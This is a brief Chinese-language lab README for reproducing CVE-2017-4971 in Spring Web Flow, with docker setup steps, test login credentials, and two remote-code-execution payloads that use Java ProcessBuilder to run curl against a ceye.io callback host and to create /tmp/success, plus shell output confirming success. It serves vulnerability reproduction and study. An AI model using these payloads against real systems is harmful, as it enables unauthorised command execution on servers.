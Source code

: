 URL:https://threathunter.org/topic/593d562353ab369c55425a90

## 测试环境搭建

```
docker-compose build
docker-compose up -d

安全完之后直接访问http://0.0.0.0:30082
```
登录账号：keith
登录密码：melbourne

```
ceye.io测试
&_(new+java.lang.ProcessBuilder("/usr/bin/curl","http://spring.test.ceye.io/")).start()=iswin
```
```
&_(new+java.lang.ProcessBuilder("/usr/bin/touch","/tmp/success")).start()=iswin
会在docker 容器里面生成一个success文件
root@18c62faacda0:/tmp# ls
hsperfdata_root  success
```

![1.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/CVE-2017-4971/1.png)
![2.png](https://raw.githubusercontent.com/Loneyers/vuldocker/master/CVE-2017-4971/2.png)
